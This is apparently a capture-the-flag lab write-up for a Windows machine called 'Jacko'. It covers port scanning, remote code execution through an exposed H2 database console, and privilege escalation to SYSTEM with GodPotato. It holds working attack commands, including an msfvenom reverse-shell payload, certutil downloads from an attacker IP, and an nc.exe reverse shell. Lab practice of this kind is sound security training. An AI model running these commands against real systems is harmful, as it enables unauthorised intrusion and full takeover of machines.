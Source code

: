 # Jacko

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.66
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:07 +08
Nmap scan report for 192.168.197.66
Host is up (0.17s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
5040/tcp  open     unknown
8082/tcp  open     blackice-alerts
9092/tcp  open     XmlIpcRegSvc
41213/tcp filtered unknown
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49668/tcp open     unknown
49669/tcp open     unknown
57199/tcp filtered unknown
```

Lots of ports. I did a detailed `nmap` scan to further enumerate the ports. We would find a H2 Instance on one of the ports from this scan:

```
$ sudo nmap -p 80,135,139,445,5040,8082,9092 -sC -sV -O -T4 -Pn 192.168.197.66
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:25 +08
Nmap scan report for 192.168.197.66
Host is up (0.17s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5040/tcp open  unknown
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc?
```

The H2 Database does have a few code execution exploits that might work.&#x20;

### H2 Database --> RCE

Port 8082 shows us the login to the H2 database.

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

We can just click 'Connect', and login successfully.

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

This version has code execution exploits available:

```
$ searchsploit H2 Database 1.4.199
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
H2 Database 1.4.199 - JNI Code Execution                   | java/local/49384.txt
----------------------------------------------------------- ---------------------------------
```

To exploit this, we would need to just copy and paste the script contents of the `searchsploit` file twice, and we would get RCE:

<figure><img src="../../../.gitbook/assets/image (16) (3).png" alt=""><figcaption></figcaption></figure>

To get a reverse shell, simply use these 2 commands with a `msfvenom` generated payload.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.177 LPORT=21 -f exe > pwn.exe
certutil -urlcache -split -f http://192.168.45.177/pwn.exe C:\\Windows\\Tasks\\pwn.exe
C:\\Windows\\Tasks\\pwn.exe
```

<figure><img src="../../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

`whoami.exe` is located in `C:\Windows\System32`, and this machine has a broken PATH variable.

## Privilege Escalation

### PrintSpoofer Fail

We can check our privileges using `whoami.exe`:

```
C:\Windows\System32>whoami.exe /priv
whoami.exe /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The `SeImpersonatePrivilege` is enabled, so we can use `PrintSpoofer.exe` to exploit this. First, let's download the binary to the machine:

```
C:\Windows\System32>certutil -urlcache -split -f http://192.168.45.177/PrintSpoofer.exe C:/Windows/Tasks/print.exe
certutil -urlcache -split -f http://192.168.45.177/PrintSpoofer.exe C:/Windows/Tasks/print.exe
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.
```

However, the exploit seems to fail:

```
C:\Users\tony\Desktop>.\print.exe -i -c cmd
.\print.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[-] Operation failed or timed out
```

So we have to find another way.&#x20;

### GodPotato.exe

We can try using `GodPotato.exe` since that privilege is probably the intended solution:

```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c whoami"
.\godpotato.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140725151858688
[*] DispatchTable: 0x140725154201184
[*] UseProtseqFunction: 0x140725153568784
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\509f9274-ba8c-4b7c-844e-55d04cdf359c\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00009002-05c4-ffff-2de7-6cc9f11fd1cf
[*] DCOM obj OXID: 0x20259e4ef373758d
[*] DCOM obj OID: 0xdee8046159a66ec5
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 800 Token:0x504  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 408
```

Looks like it works well. Now we can download `nc.exe` onto the machine and get ourselves another reverse shell.&#x20;

```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c C:/Windows/Tasks/nc.exe 192.168.45.177 4444 -e cmd.exe
.\godpotato.exe -cmd "cmd /c C:/Windows/Tasks/nc.exe 192.168.45.177 4444 -e cmd.exe"
[*] CombaseModule: 0x140725151858688
[*] DispatchTable: 0x140725154201184
[*] UseProtseqFunction: 0x140725153568784
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\36900a7f-bec3-4dd7-9606-fc8ece7a7d11\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00008802-0d1c-ffff-64b7-d6de22e4ee03
[*] DCOM obj OXID: 0x1bb30dc7fc7c0cb7
[*] DCOM obj OID: 0x770fb99694a2c278
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 800 Token:0x504  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1592
```

<figure><img src="../../../.gitbook/assets/image (13) (5).png" alt=""><figcaption></figcaption></figure>

This is a SYSTEM shell, and we can grab the required flags. Rooted!
